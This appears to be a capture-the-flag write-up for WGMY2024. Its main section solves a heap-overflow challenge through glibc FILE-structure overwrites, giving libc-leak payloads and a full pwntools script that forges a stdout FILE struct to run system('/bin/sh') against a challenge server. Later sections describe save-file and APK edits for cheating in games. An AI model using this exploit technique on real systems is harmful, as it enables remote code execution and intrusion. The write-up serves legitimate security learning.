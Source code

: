 # WGMY2024

## Table of Contents
- [pwn/screenwriter](#pwnscreenwriter)
- [game/world 1](#gameworld-1)
- [game/world 2](#gameworld-2)
- [rev/stones](#revstones)
- [rev/sudoku](#revsudoku)

## Pwn/Screenwriter

Challenge Description : Use our software to craft your next blockbuster hit!

Challenge Summary : This challenge involves overwriting the FILE struct to gain arbitrary read and write

<details>
<summary>Source Code</summary>

```c
#include <stdio.h>
#include <stdbool.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void init(){
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    return;
}

void menu(){
    puts("1. Set screenwriter name");
    puts("2. Write script");
    puts("3. View reference");
    puts("4. Exit");
}

int get_choice(){
    char tmp[5] = "";
    printf("Choice: ");
    fgets(tmp,4,stdin);
    return atoi(tmp);
}

void main(){
    init();
    char* name = malloc(0x28);
    FILE *ref_script = fopen("bee-movie.txt","r");
    FILE *own_script = fopen("script.txt","w");
    puts("Welcome to our latest screenwriting program!");
    
    while (true){
        int choice = 0;
        menu();

        switch (get_choice()) {
            case 1:
                printf("What's your name: ");
                read(0,name,0x280);
                break;        

            case 2:
                char own_buf[0x101] = "";
                printf("Your masterpiece: ");
                read(0,own_buf,0x100);
                fwrite(own_buf,1,0x100,own_script);
                break;

            case 3:
                char ref_buf[0x11] = "";
                memset(ref_buf,0,0x11);
                fread(ref_buf,1,0x10,ref_script);
                puts("From the reference:");
                puts(ref_buf);
                break;

            default:
                printf("Goodbye %s",name);
                exit(0);
        }
    }
}
```

</details>

Looking at the source code, we can see an obvious buffer overflow in option 1 which lets us overwrite data in the heap. However, it is not immediately clear what we are suppose to overwrite.

![image](https://github.com/user-attachments/assets/34f34683-5893-4583-8a32-cc9c67c230cc)

Looking at it in gdb, we can see our name chunk with size 0x31 at the top. After that, theres another chunk with size 0x1e1 followed by the value 0xfbad2488. When I saw this value, FSOP immediately came to mind. What is a FILE struct? Lets let @Ren explain 

![image](https://github.com/user-attachments/assets/9614f272-4910-4799-9d79-8f3a70ec1e0d)

You can take a look at the definition in [elixir bootlin](https://elixir.bootlin.com/linux/v6.12.6/source)

<details>
<summary>FILE Struct</summary>

```c
struct _IO_FILE
{
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */

  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;	/* Current read pointer */
  char *_IO_read_end;	/* End of get area. */
  char *_IO_read_base;	/* Start of putback+get area. */
  char *_IO_write_base;	/* Start of put area. */
  char *_IO_write_ptr;	/* Current put pointer. */
  char *_IO_write_end;	/* End of put area. */
  char *_IO_buf_base;	/* Start of reserve area. */
  char *_IO_buf_end;	/* End of reserve area. */

  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */

  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  _IO_lock_t *_lock;
  __off64_t _offset;
  /* Wide character stream stuff.  */
  struct _IO_codecvt *_codecvt;
  struct _IO_wide_data *_wide_data;
  struct _IO_FILE *_freeres_list;
  void *_freeres_buf;
  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
};
```

</details>

The FILE Struct contains many fields which manage buffering.

### Analysis

![image](https://github.com/user-attachments/assets/03c4a9dd-ef7a-4ef6-a6df-42a5cf45204f)

After using option 3, we can see that the struct is now populated with values.

![image](https://github.com/user-attachments/assets/d9123403-d0ad-450e-b409-864d182c755a)

The contents of the bee script is read into 0x405690 which corresponds to the values in the struct above. Now, our goal will be to overwrite the pointers on the struct to trick it into thinking theres a buffer located somewhere else. Then we will use option 3 to leak this value. Our target will be the GOT entry of puts()

```
GOT protection: Full RelRO | GOT functions: 13

[0x403f88] puts@GLIBC_2.2.5  →  0x7ffff7c80ed0
```

```py
payload = b"A" * 0x28
payload += p64(0x1e1)
payload += p64(0xfbad2488)
payload += p64(0x403f88)
payload += p64(0x404f88)
payload += p64(0x403f88) * 5
payload += p64(0x404f88)
```

![image](https://github.com/user-attachments/assets/32f89dfc-24e7-4817-abcd-78f7ad8980bd)

Now that we know where is libc, maybe we can spawn a shell on the server. To do that, we need to be able to freely write anywhere in memory. Luckily for us, there is a 2nd file struct which lets us write data. Now, we should overwrite the struct fields to trick libc into thinking that the buffer is located somewhere else. But where should we write to? I used [angry-FSROP](https://blog.kylebot.net/2022/10/22/angry-FSROP/) to spawn shell on server. 

### Getting Arbitrary Write

```py
payload = b"A" * (0x198 + 0x70)
payload += p64(0x1e1)
payload += p64(0xfbad2c84)
payload += p64(stdout) 
payload += p64(0x0) * 5
payload += p64(stdout)
payload += p64(stdout + 0x1000)
```

![image](https://github.com/user-attachments/assets/52214079-50ad-4ed1-92da-b9907e244482)

Now, the buffer for our write is located at `_IO_2_1_stdout_`. The next thing to do would be to overwrite stdout with our payload.

![image](https://github.com/user-attachments/assets/ed3c8a0d-a18c-4f47-aca7-60b5718e81c0)

<details>
<summary>Solve Script</summary>

```py
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./chall_patched')
libc = exe.libc

host = "43.216.119.115"
port = 32782

gdb_script = '''

'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

# p = exe.process()
p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

sla(b"Choice: ", "3")

payload = b"A" * 0x28
payload += p64(0x1e1)
payload += p64(0xfbad2488)
payload += p64(0x403f88)
payload += p64(0x404f88)
payload += p64(0x403f88) * 5
payload += p64(0x404f88)

sla(b"Choice: ", "1")
s(payload)
sla(b"Choice: ", "3")

ru(b"reference:\n")
libc.address = u64(rl() + b"\x00\x00") - (0x7f9149c80ed0 - 0x00007f9149c00000)
environ = libc.sym["environ"]
li(f"Libc base @ {hex(libc.address)}")

stdout_lock = libc.address + 0x21ba70
stdout = libc.sym['_IO_2_1_stdout_']
fake_vtable = libc.sym['_IO_wfile_jumps']-0x18
gadget = libc.address + 0x0000000000163830

payload = b"A" * (0x198 + 0x70)
payload += p64(0x1e1)
payload += p64(0xfbad2c84)
payload += p64(stdout) 
payload += p64(0x0) * 5
payload += p64(stdout)
payload += p64(stdout + 0x1000)

print(hex(len(payload)))
sla(b"Choice: ", "1")
s(payload)

fake = FileStructure(0)
fake.flags = 0x3b01010101010101
fake._IO_read_end=libc.sym['system']
fake._IO_save_base = gadget
fake._IO_write_end=u64(b'/bin/sh\x00')
fake._lock=stdout_lock
fake._codecvt= stdout + 0xb8
fake._wide_data = stdout+0x200
fake.unknown2=p64(0)*2+p64(stdout+0x20)+p64(0)*3+p64(fake_vtable)

print(hex(len(bytes(fake))))
sla(b"Choice: ", "2")
s(bytes(fake))

# debug()

p.interactive()
```

</details>

### Side Note

There are multiple ways to solve this challenge, potentially overwriting the return address of read() or overwriting the exit functions handler with a one gadget. I tried both but it didnt work for me so I guess its a skill issue. Though, I was very satisfied with this because its my first time solving a FSOP challenge after reading writeups about it.

## Game/World 1

When saving the game, we get a RMMZSave file which we can edit using this [Save Edit](https://www.saveeditonline.com/)

![image](https://github.com/user-attachments/assets/dcad718c-1093-455f-9ccf-97b2d4f7ccff)

Then, just play the game and one shot the bosses to get all the flag. Flag 1, 2 and 3 is obtainable by killing the boss. Flag 4 can be obtained by killing the lava world boss and walking back out. The flag is written on the floor. The final flag is obtained by unlocking the chest and entering the password "wgmy". Hints about the password is given as "23 7 13 25".

## Game/World 2

Open the apk in APKLab and look for interesting things. One thing I found was the Enemies.json

![image](https://github.com/user-attachments/assets/1129c465-dc52-4921-a649-cdac2b4fed99)

`"params":[600,0,20,20,20,20,20,20]`

I assumed the params are the stats of the monster and just modified the biggest number (assuming to be HP) to 1. Then, recompile the APK and sign it. Then install the game in BlueStacks and play through the game to get all the flags. Flags are obtained in the same way as World 1

## Rev/Stones

## Rev/Sudoku
